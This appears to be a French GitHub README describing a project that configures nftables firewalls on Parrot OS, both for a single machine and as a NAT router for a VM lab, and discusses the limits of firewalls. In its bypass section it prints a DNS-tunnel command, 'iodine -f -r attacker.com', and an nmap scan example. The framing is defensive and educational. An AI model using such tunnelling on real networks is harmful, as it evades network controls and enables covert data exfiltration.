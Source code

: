 ## Objectif du projet

Ce projet présente la configuration de pare-feux avancés sous **Parrot Security OS**, une distribution orientée **pentest** et **protection de la vie privée/anonymat**.

Les démonstrations portent sur les niveaux suivants :

- **Niveau 6 — nftables (avancé, machine seule)**
- **Niveau 7 — nftables (NAT/Lab, routeur pour un lab de VM)**

## Pourquoi Parrot OS ?

- Distribution orientée **pentest** et **vie privée/anonymat**.
- Le pare-feu **UFW** est installé par défaut mais désactivé → à activer/configurer par l’utilisateur.
- Intègre des outils de confidentialité (Tor, Anonsurf, OnionShare).
- Plus légère que Kali, adaptée aux **machines modestes** et à la virtualisation (VirtualBox, VMware).




---

# Niveau 6 (standalone, machine protégée)

# Niveau 7 (NAT / Lab, routeur VM)

---



---

#  Limites et bonnes pratiques

Un firewall réduit la surface d’attaque mais ne protège pas de tout.

Un hacker expérimenté peut :

passer par un port ouvert (SSH, HTTPS),

exploiter une faille logicielle,

utiliser du tunneling (DNS, HTTP(S)),

contourner via IPv6 si mal configuré.

👉 Solution : combiner avec un IDS/IPS (Snort, Suricata), du monitoring (logs, SIEM), et de bonnes pratiques (MFA, patchs, segmentation réseau).

---

# Conclusion
Parrot OS est une alternative solide à Kali, plus légère et orientée vie privée.

Les niveaux 6 et 7 démontrent deux cas concrets :

🔒 Protection avancée d’une machine individuelle.

🌐 Mise en place d’un routeur/firewall complet pour un lab réseau.

Ce projet illustre comment un firewall évolue : de simple protection → à composant réseau avancé.

⚡ Technologies utilisées
Parrot OS

nftables

VirtualBox



📌 Auteur : Virginie Lechene

# ⚠️ Comment un hacker pourrait contourner


Même avec un firewall avancé (niveaux 6 et 7), il existe des techniques de contournement :

Exploiter les ports ouverts (ex : nmap -p 443 <cible> → scanner en HTTPS).

Tunneling DNS (ex : iodine → transformer DNS en canal de communication).

Exploiter des failles applicatives derrière un port autorisé.



👉 C’est pourquoi on combine firewall + IDS/IPS + monitoring.

🔹 Exemple — Tunnel DNS (contournement)


Comme le port 53 (DNS) est ouvert, un attaquant peut établir un tunnel DNS :

iodine -f -r attacker.com

👉 Cela permet de faire passer du trafic complet dans des requêtes DNS → contournant le firewall.

🚀 Différence entre Niveau 6 et Niveau 7


🔹 Niveau 6 : Firewall personnel
Ne protège que ta machine locale.

Politique stricte : tout bloqué sauf quelques services.

Idéal pour un poste de travail ou serveur isolé.



👉 Exemple : ton PC sous Parrot OS n’accepte que le trafic web et SSH.

🔹 Niveau 7 : Firewall réseau
Ta machine devient un routeur + firewall.

Protège un lab ou réseau interne entier.

Ajoute le forwarding + NAT.

Fonctionne comme un firewall d’entreprise (pfSense, Fortinet, iptables/nftables).



👉 Exemple : une VM interne passe par ton firewall pour sortir → le firewall contrôle/log tout le trafic.




